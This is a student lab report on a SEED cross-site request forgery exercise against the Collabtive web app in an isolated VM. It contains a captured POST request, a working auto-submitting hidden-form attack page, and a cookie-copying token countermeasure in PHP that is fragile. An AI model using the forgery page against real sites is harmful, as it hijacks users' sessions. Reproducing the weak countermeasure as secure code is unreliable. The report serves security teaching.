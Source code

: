 #+TITLE: 2013-FA-CS-336-LA-04-AndyS-SheaN
#+AUTHOR: Andrew Schwartzmeyer, Shea Newton
#+OPTIONS: toc:nil num:nil

| Year and Semester: | 2013 FALL                         |
| Course Number:     | CS-336                            |
| Course Title:      | Intro. to Information Assurance   |
| Work Number:       | LA-04                             |
| Work Name:         | Cross-Site Request Forgery        |
| Work Version:      | Version 1                         |
| Long Date:         | Tuesday, 10 November 2013         |
| Author Names:      | Andrew Schwartzmeyer, Shea Newton |

* DONE LA-04 NetSec						 ::noexport::
   DEADLINE: <2013-11-10 Sun>
For this laboratory assignment please follow the instructions in the
laboratory in the link below and for preparing your laboratory report
please follow the instructions in this posting plus all the guidelines
posted within this course site under Course Info -> Coursework
Submission Instructions -> LA-Laboratory Report Submissions.

Cross-Site Request Forgery

Laboratory Instructions:

http://www.cis.syr.edu/~wedu/seed/Labs/Web/CSRF_Collabtive/

These laboratories have been developed by Wenliang Du of Syracuse
University and collaborators with sponsorship from the National
Science Foundation (NSF).

This is a group assignment (groups of 2 that will be determined in
class). Please submit a laboratory report as described within this
course site. Both students in the group will obtain the same grade and
only one student in the group needs to submit.

Additional Requirements:

0) When you create the VM it is mandatory that you configure the
   virtual Network to Internal Network.

VERY IMPORTANT: Before starting the laboratory please change the logon
credentials for both Ubuntu users and the mysql user.

1) In addition to describing with detail all the steps you carried out
   and their corresponding rationale and answering all the questions
   posted within the linked lab, please do the following:

2) Comment the code with high detail and include in your laboratory
   report those relevant portions of the code and their corresponding
   non-vulnerable versions.

3) Clearly specify, for example by highlighting, where the presented
   code is vulnerable.

4) Present a new version of the code that is not vulnerable, even when
   compiled and run with all compiler and system protection mechanisms
   disabled. Show, in the description and experimentally, that your
   improved version does not contain the same vulnerability.

5) Prepare and submit a laboratory report in PDF following the
   guidelines posted within this course site under Course Info ->
   Coursework Submission Instructions -> LA-Laboratory Report
   Submissions.


* Abstract

The purpose of this report is to detail the implications of cross-site
request forgery (CSRF) vulnerabilities. The CSRF attack detailed in
this lab allows a malicious site to inject an HTTP POST request into a
trusted site's active user session in order to impersonate the user
and forge their input. Beyond exploring the threat this vulnerability
represents, this report details a countermeasure, involving validating
a secret token, that may be used in order to secure a site against
this type of attack.

* Problem and Background
The purpose of this lab was to explore cross-site request forgery
attacks. Cross-site request forgeries(CSRF) are attacks that involve a
malicious site injecting an HTTP request into an active session with a
trusted site. 

CSRF attacks involve three players, a victim, a site the victim trusts
and a malicious site. The key to this type of attack is a victim
visiting the malicious site while logged into an active session with
their trusted site. The malicious site is able to forge the HTTP GET
and HTTP POST requests in order to impersonate or "compromise the
integrity" of the trusted site. [Du 3]

* Problem Detail

For this lab we were tasked with attacking the open-source web
application Collabtive via a cross-site request forgery, and then
implementing a secret-token based counter-measure to the attack.

The vulnerability exploited in this lab exists because Collabtive
fails to properly verify HTTP POST requests sent from its user edit
form (revealed by the "Edit" in the "My Account" page for a given
user). It trusts that any POST request from a logged-in user is valid,
based solely on the user having an authenticated session cookie.

Because of this, we can make an HTML page (the cross-site) which
generates a hidden form with our forged input, and sends it via a POST
request initiated through a JavaScript function call. If this site
were accidentally loaded by the user (say, through a malicious
advertisement), then our forged request would be sent to the server
and look just as if it was a valid request made by the user. If the
site was vulnerable to GET requests (that is, our attack avenue was
through any vulnerable tag that is not "form"), then we wouldn't even
need JavaScript, as GET request is much easier to make.

CSRF attacks are easily mitigated through better authentication
techniques. In this lab we explore the use of a secret-token, passed
with the form when a user generates a valid POST request, but
unobtainable (save for a man-in-the-middle attack, but if that is
available, there are worse ways to cause harm) by the
attacker. Without the secret token, the forged request will be
recognized as unauthenticated and the attack will fail.

* Tasks
** Task 0: Setup the VM

Our first task is to properly setup the provided virtual machine
environment in which we will complete this lab. We are given an Ubuntu
Desktop 11.04 VM, and the first order of business is to lock it
down. To do this we set its virtual network adaptor to "Internal
Network" so that it cannot communicate with any other machine, then we
change the credentials of both Ubuntu users and the MySQL user
(although the latter is not used in this lab).

** Task 1: Modifying the Victim's Profile

Before we can modify the victim's profile, we need to capture a POST
request of the user submitting the edit profile form (as it is this
request we will be forging). To do this, we opened up Collabtive,
logged in as "bob", navigated to the edit profile form, opened the
Live HTTP Headers extension, cleared it, submitted the form, and went
back to the extension, which captured the initial POST request for us
(in addition to all the subsequent GET requests made by the browser
drawing the new page). The captured POST request is reproduced here,
with the GET requests removed for brevity.

#+begin_src txt
http://localhost/CSRF/Collabtive/manageuser.php?action=edit

POST /CSRF/Collabtive/manageuser.php?action=edit HTTP/1.1 Host:
localhost User-Agent: Mozilla/5.0 (X11; Linux i686; rv:5.0)
Gecko/20100101 Firefox/5.0 Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5 Accept-Encoding: gzip, deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7 Connection: keep-alive
Referer:
http://localhost/CSRF/Collabtive/manageuser.php?action=editform&id=3
Cookie: PHPSESSID=88n5386bqoes4rs843oviuh731 Content-Type:
multipart/form-data;
boundary=---------------------------20367708811588547619618939618
Content-Length: 2265
-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="name"

bob -----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="userfile"; filename=""
Content-Type: application/octet-stream


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="file-$myprojects[project].ID"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="company"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="email"

bob@example.com
-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="web"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="tel1"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="tel2"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="address1"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="zip"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="address2"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="country"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="state"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="gender"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="locale"

en -----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="admin"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="oldpass"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="newpass"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="repeatpass"


-----------------------------20367708811588547619618939618--

HTTP/1.1 302 Found Date: Sun, 10 Nov 2013 02:02:32 GMT Server:
Apache/2.2.17 (Ubuntu) X-Powered-By: PHP/5.3.5-1ubuntu7.2 Expires:
Thu, 19 Nov 1981 08:52:00 GMT Cache-Control: no-store, no-cache,
must-revalidate, post-check=0, pre-check=0 Pragma: no-cache Location:
http://localhost/CSRF/Collabtive/manageuser.php?action=profile&id=3&mode=edited
Content-Encoding: gzip Vary: Accept-Encoding Content-Length: 26
Keep-Alive: timeout=15, max=100 Connection: Keep-Alive Content-Type:
text/html; charset=utf-8
----------------------------------------------------------
#+end_src

With the captured request, we now have the information (namely the
requests' structure) required for us to forge a new one. Next we need
to make an HTML page for our attack, with a hidden form filled with
our desired changes, and some embedded JavaScript to submit it through
a POST request.

#+begin_src html
  <!DOCTYPE html>
  <!--
  This code was provided by the lab's author Wenliang Du, of Syracuse
  University under the GNU Free Documentation License
  
  Editted by us to make our desired changes, and post to the correct
  URL.
  -->
  <html>
  <title>
  </title>
  <body>
  <h1>
  This page forges an HTTP POST request.
  </h1>
  <script type="text/javascript">
  function post(url,fields) {
     //create a <form> element.
     var p = document.createElement('form');
     //construct the form
     p.action = url;
     p.innerHTML = fields;
     p.target = 'self';
     p.method = 'post';
     //append the form to the current page.
     document.body.appendChild(p);
     //submit the form
     p.submit();
  }
  
  function csrf_hack() {
  var fields;
     // The following are form entries that need to be filled out
     //     by attackers. The entries are made hidden, so the victim
     //     won't be able to see them.
     fields += "<input type='hidden' name='name' value='notbob' />";
     fields += "<input type='hidden' name='gender' value='female' />";
     fields += "<input type='hidden' name='company' value='seed' />";
     post('http://localhost/CSRF/Collabtive/manageuser.php?action=edit',fields);
  }
  // invoke csrf_hack() after the page is loaded.
  window.onload = function() { csrf_hack(); }
  </script>
  </body>
  </html>
#+end_src

Now if we login to a user (we chose 'bob'), and then in a separate
browser tab open the attack code at
"http://localhost/CSRF/Attack/index.html", our cross-site request
forgery will change bob's name to 'notbob', transgender him, and
assign him to our company 'seed'. This is done when the csrf_hack()
JavaScript function is called (on page load through the
'window.onload' hook), which adds our three HTML form inputs to a
fields variable, and submits this and the attack URL
("http://localhost/CSRF/Collabtive/manageuser.php?action=edit") to the
function post(), which creates an HTML form element on the document
and puts it into a temporary variable, assigns the url to the action
of the element, puts the value of fields into the element's inner
HTML, assigns the element as target, makes the element's method a POST
request, appends the element as a child to the body of the HTML
document, and calls submit on the element. This final action causes
the actual POST request with the hidden HTML form to be submitted to
the target URL, which in turn edit's the users profile because the
destination server cannot distinguish the forged request because it
trusts (through the browser's cookie) the user's authentication.

** Task 2: Implementing a countermeasure for Collabtive

Because cross-site request forgeries depend on the server blindly
re-authenticating the user through their cookie (which is obviously
quite vulnerable), protecting a web application from an CSRF attack is
actually quite easy. It simply requires implementation better
authentication. The method the lab instructs us to use is that of
secret-token authentication: our edit user form can include a hidden
field with a secret ID (normally the value of the session cookie),
which the server can use to validate an incoming POST request. If the
request does not have the SID, or it does not match, the server can
reject the request and thus deny the attack. [Du 4]

To implement this, first we add the following code into edit user form
template file located at
"/var/www/CSRF/Collabtive/templates/standard/edituserform.tpl".

#+begin_src html
  <!-- Unmodified code removed for brevity -->
...
  <input type = "hidden" name = "sid" value = "" />
...
  <button type="submit" onclick="this.form.sid.value = document.cookie"
    onfocus="this.blur()">{#send#}</button>
...
#+end_src

This adds the hidden input 'sid', and, on the click of the form send
button, assigns the value of the session cookie to the value of the
sid input.

Next we need to implement the SID validation. In the file
"/var/www/CSRF /Collabtive/manageuser.php", we add the following
validation check inside the first logical if statement (which checks
that our action is not one of "login", "logout", "resetpassword", or
"loginerror", so it will pass for "edit").

#+begin_src php
  if ($action == "edit" &&
      $_COOKIE["PHPSESSID"] !=
        str_replace("PHPSESSID=", "", getArrayVal($_POST, "sid"))) { 
    echo("Cookie and SID unmatched");
    die();
  }
#+end_src

This checks if our action is an edit, and if so, it validates that the
value of the cookie `$_COOKIE["PHPSESSID"]` against the value of the
"sid" from the POST request (which has been parsed by str_replace to
get rid of the extraneous string "PHPSESSID="). If they do not match,
it echoes such and subsequently dies, denying the attack. Note also
that this approach does not require a JavaScript string operation,
only the PHP str_replace() function.

With the countermeasure implemented, we attempt to re-execute our
prior attack. This fails as expected, with the message "Cookie and SID
unmatched". We can get around this by capturing a POST session of the
user containing either the SID or cookie value, and then replicating
this in our forged request. However, this would require a live
man-the-middle attack to gain the necessary data. Without this
information, we cannot get around this defense.

* Code

Detailed in Tasks Section

* Answers

Detailed in Tasks Section

* References

Du, Wenliang. 2006-2011. "Cross-Site Request Forgery (CSRF) Attack Lab". http://www.cis.syr.edu/~wedu/seed/Labs/Web/CSRF_Collabtive/
